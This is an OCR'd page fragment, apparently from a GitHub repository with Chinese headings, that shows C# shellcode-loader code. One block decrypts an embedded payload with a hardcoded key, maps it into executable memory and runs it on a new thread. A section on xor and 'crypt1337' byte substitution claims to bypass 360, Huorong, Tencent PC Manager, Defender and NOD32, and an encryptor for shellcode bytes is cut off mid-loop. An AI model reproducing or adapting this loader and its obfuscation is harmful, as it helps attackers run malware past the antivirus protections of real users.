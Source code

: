 ```c#
        }
    }
}
```
//decrypt
```c#
string Payload_Encrypted;
Payload_Encrypted = "240,222,148,160,253,139,204,128,168,11,132,74";
string[] Payload_Encrypted_Without_delimiterChar = Payload_Encrypted.Split(',');
byte[] _X_to_Bytes = new byte[Payload_Encrypted_Without_delimiterChar.Length];
for (int i = 0; i < Payload_Encrypted_Without_delimiterChar.Length; i++)
{
    byte current = Convert.ToByte(Payload_Encrypted_Without_delimiterChar[i].ToString());
    _X_to_Bytes[i] = current;
}
byte[] KEY = { 0x11, 0x22, 0x21, 0x00, 0x33, 0x01, 0xd0, 0x00, 0x00, 0xa1, 0x00, 0x00, 0x00, 0x00, 0x00, 0x11, 0x00, 0x11, 0x01, 0x11, 0x11, 0x00, 0x00 };
byte[] Finall_Payload = Decrypt(KEY, _X_to_Bytes);

UInt32 funcAddr = VirtualAlloc(0, (UInt32)Finall_Payload.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
Marshal.Copy(Finall_Payload, 0, (IntPtr)(funcAddr), Finall_Payload.Length);
IntPtr hThread = IntPtr.Zero;
UInt32 threadId = 0;
IntPtr pinfo = IntPtr.Zero;
uint lpflOldProtect = 0x01;
VirtualProtect((IntPtr)(funcAddr), (UInt32)Finall_Payload.Length, 0x10, lpflOldProtect);
/// execute native code
hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
WaitForSingleObject(hThread, 0xFFFFFFFF);
```

### shellcode 字节替换
#### xor
#### crypt1337
bypass 360 火绒 电脑管家 defender NOD32 
~~卡巴斯基~~
```c#
//encrypt
using System;
using System.Text;

namespace cryprt1337encrypt
{
    class Program
    {
        static void Main(string[] args)
        {
            byte[] buf = new byte[835] { xxxx };
            String s;
            s = l337CryptPlusPlus(buf);
            Console.WriteLine(s);
        }
        private static string l337CryptPlusPlus(byte[] buf)
        {
            StringBuilder lolbuf = new StringBuilder();
            lolbuf.Append("byte[] hahabuf = new byte[");
            lolbuf.Append(buf.Length);
            lolbuf.Append("]{ ");

            byte[] bufclone = (byte[])buf.Clone();
            for (int i = 0; i < buf.Length; i++)
```

[go/shellcode_inject/virtual>>]: generate